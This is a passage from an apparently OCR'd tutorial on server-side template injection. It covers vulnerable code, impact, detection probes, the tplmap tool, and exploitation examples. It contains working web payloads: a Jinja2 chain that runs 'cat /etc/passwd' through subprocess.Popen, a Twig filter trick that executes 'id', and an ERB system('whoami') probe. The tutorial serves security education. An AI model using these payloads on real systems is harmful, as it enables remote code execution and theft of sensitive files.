 2. **Code Context**

   - User input is placed inside template expressions (e.g., `{{ ... }}`).
   - Example:
     ```python
     render_template(f"Hello, {username}")  # Vulnerable if `username` contains `{{ malicious_code }}`
     ```

---

## **Impact of SSTI**

- **Remote Code Execution (RCE)**: Execute arbitrary commands on the server.
- **Sensitive Data Exposure**: Read files (e.g., `/etc/passwd`, database credentials).
- **Application Takeover**: Compromise the server or pivot to internal systems.

---

## **How to Detect SSTI**

1. **Probe with Math Expressions**

   - Test inputs like `{{ 7*7 }}`, `<%= 7*7 %>`, or `${{7*7}}`.
   - If the output is `49`, SSTI is likely present.

2. **Identify the Engine**

   - Use payloads specific to common engines:
     - **Jinja2**: `{{ ''.__class__.__mro__ }}`
     - **Twig**: `{{ _self }}`
     - **ERB**: `<%= system("whoami") %>`

3. **Automated Tools**

   - **tplmap**:
     ```bash
     python tplmap.py -u "http://example.com/page?name=test"
     ```

---

## **Exploitation Examples**

### **1. Jinja2 (Python)**

```python
{{ ''.__class__.__mro__[1].__subclasses__()[401]('cat /etc/passwd', shell=True, stdout=-1).communicate() }}
```

- Lists all subclasses of `object` and exploits `subprocess.Popen` to run commands.

### **2. Twig (PHP)**

```php
{{ _self.env.registerUndefinedFilterCallback("system") }}{{ _self.env.getFilter("id") }}
```
